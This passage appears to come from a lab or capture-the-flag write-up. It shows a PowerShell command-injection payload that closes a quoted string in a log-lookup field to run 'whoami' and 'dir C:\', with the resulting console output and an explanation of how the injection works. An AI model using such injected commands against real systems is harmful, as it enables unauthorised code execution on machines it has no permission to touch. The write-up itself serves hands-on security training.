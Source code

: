 This information allowed me to prepare PowerShell command, specifically an "escape" payload, which executes my command.


 ```
 BitlockerActiveMonitoringLogs'); whoami; #(
```

```console
List generated at 3:27:32 PM.
thm\admin
```
This payload closes the original string, ends the current function or command (e.g., Get-Log(...)), and then introduces the custom `whoami` command, which is executed by the system interpreter. The `#` symbol makes everything after it a comment, allowing the rest of the original command to be hidden and avoiding syntax errors. As a result, after executing the initial function, the system runs `whoami`, which returns the name of the logged-in user.
I can use this to execute my own commands through PowerShell. 
<br>I begin by searching through the files.

```
BitlockerActiveMonitoringLogs'); dir C:\; #(
```

```console

    Directory: C:\


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        1/25/2023  11:44 AM                934484d0a9de05fc41a4dc84                                              
d-----        1/26/2023  10:36 AM                ExchangeSetupLogs                                                     
d-----        1/25/2023  12:12 PM                inetpub                                                               
d-----        9/15/2018  12:19 AM                PerfLogs                                                              
d-r---        2/28/2023   2:23 PM                Program Files                                                         
d-----        1/25/2023  11:41 AM                Program Files (x86)                                                   
d-----        1/25/2023   1:34 PM                root                                                                  
d-r---        1/26/2023   1:16 PM                Users                                                                 
d-----        3/29/2023   2:34 AM                Windows                                                               
-a----        4/14/2025   8:27 AM             31 BitlockerActiveMonitoringLogs                                         
```
